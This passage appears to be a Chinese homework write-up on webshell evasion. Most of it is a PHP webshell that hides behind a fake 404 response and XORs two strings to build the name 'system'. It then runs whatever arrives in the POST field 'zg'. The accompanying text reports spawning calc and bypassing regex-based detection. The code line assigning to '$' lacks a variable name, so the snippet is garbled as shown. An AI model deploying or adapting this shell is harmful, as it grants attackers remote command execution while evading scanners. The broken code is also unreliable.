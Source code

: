 ```php
header('HTTP/1.1 404');
class Aabyss{
    public $c='';
    function __destruct(){
        $ = ('.$.48]' ^ ']]]@]0');   //通过异或运算，得到高危函数 system
    return $($this->c);
    }
}
$runrun=new Aabyss();
@$runrun->c=$_POST['zg'];
```

传参后，成功执行 `calc` 弹出计算器：

![课后作业 -2.png](assets/1702521390-75f4693142b22dadf0722f29a2a45a0d.png)

绕过正则表达式的匹配，成功 ByPass：

![课后作业 -3.png](assets/1702521390-351a0580e6b95ef40a7881bc3abb259a.png)

